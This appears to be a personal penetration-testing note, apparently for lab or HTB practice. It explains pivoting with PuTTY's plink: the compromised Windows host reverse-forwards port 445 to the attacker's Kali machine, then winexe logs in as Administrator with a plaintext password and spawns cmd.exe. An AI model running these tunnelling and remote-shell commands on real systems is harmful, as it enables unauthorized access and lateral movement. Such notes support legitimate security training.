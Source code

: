 https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

Transfer to vic:

![[Python#Server]]

![[4._File Transfers#Certutil]]

on Kali:
```bash - kali
apt install ssh
```

```bash - kali
mousepad /etc/ssh/sshd_config
```

Change line 33 to:

PermitRootLogin yes

> ALSO, if using HTB, or is not working, try changing port to something other than 22 on line 14, then restarting ssh service.

```bash - kali
service ssh restart
```

```batch - windows
plink.exe -l kali -pw kali -R 445:127.0.0.1:445 $KALI -P 22
```

Now you'll see you're back in your Kali box!

![[Pasted image 20220203144819.png]]

Use winexe to login through local port and spawn cmd:
```bash - kali
winexe -U Administrator%Welcome1! //127.0.0.1 "cmd.exe"
```

Hit enter a few times:
![[Pasted image 20220203145151.png]]


